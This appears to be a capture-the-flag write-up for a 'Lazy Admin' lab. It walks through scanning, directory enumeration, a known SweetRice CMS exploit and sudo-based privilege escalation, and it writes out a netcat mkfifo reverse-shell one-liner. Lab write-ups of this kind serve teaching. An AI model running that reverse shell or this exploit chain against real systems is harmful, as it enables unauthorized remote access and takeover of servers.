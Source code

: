 # Lazy Admin

## Reconnaissance

IP addr : 10.10.194.246

## Scanning & Enumeration

* Nmap Scan
  
```shell
nmap -A -T4 -p- -oN nmap/all_port 10.10.194.246
```

we find open port at 80(http) and 22(ssh)

* Gobustur dir finding
  
```shell
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.194.246/

```

we find /content and [SweetRice](http://www.basic-cms.org/) here.

SweetRice is vulnerable to <https://www.exploit-db.com/exploits/40716> exploit

We run gobuster at SweetRice

```shell
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.194.246/content/
```

and find

/images (Status: 301)
/js (Status: 301)
/inc (Status: 301)
/as (Status: 301)
/_themes (Status: 301)

and we fond a mysql backup file containing the manager password md5 hash
![mysql bak](img/mysql-bk.png)

we know have access to the cms
![cms](img/cms.png)

## Exploitation

* run our [exploit](exploit/40716.py)
we get a www data user shell
![shell](/img/shell.png)

found sudo -l exploitation vector
that run /etc/copy.pl
so we edit it'containt to

```shell
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <local-ip> <Port> >/tmp/f' >/etc/copy.sh
```

and we get thr root shell
![root](img/root_shell.png)

